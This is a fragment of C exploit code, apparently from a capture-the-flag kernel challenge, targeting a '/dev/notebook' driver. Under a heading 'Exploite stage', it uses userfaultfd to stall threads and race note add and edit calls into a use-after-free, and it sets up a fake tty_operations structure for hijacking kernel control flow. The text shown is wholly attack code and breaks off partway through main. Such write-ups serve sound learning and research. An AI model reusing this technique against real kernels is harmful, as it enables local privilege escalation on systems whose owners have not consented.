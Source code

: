 ```c
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
 */

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

int main(int argc, char **argv, char **envp)
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infrastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

```